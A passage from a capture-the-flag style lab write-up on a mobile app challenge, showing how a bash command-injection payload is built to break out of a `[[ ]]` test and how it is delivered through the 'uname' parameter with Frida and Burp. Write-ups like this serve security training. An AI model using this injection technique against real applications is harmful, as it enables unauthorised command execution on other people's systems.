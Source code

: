 <br />

We need to insert our command while ensuring the Bash script continues to execute without errors. To execute the command `echo 'rce' > /tmp/rce.txt`, the Bash script should be structured as follows:

```bash
if [[ "$(uname -a)" != "any" ]]; then
    echo 'rce' > /tmp/rce.txt
fi # ]]; then  uname -a fi
```

the Bash script as a one-liner

```bash
if [[ "$(uname -a)" != "any" ]]; then echo 'rce' > /tmp/rce.txt; fi # ]]; then  uname -a fi
```

the payload is 

```bash
any" ]]; then echo 'rce' > /tmp/rce.txt; fi #
```

<br />

**The exploitation of the command-injection vulnerability**

1. Spawn the application using Frida

```
└─# frida -U -f com.mobilehackinglab.TimeTrap3.W46SY5ZJ6Z -l hook.js 
```



2. Log in with username "emp002" and password "firefly".
3. Turn Burp Proxy intercept on.
4. Press the "Check In" button.
5. Set the "uname" request parameter to `any\" ]]; then echo 'rce' > /tmp/rce.txt; fi #` and send the request.
6. Successful exploitation will cause the response to include the flag value, indicating the lab is solved.

<br />

![](/assets/img/mhl/TimeTrap/2.png)

<br />
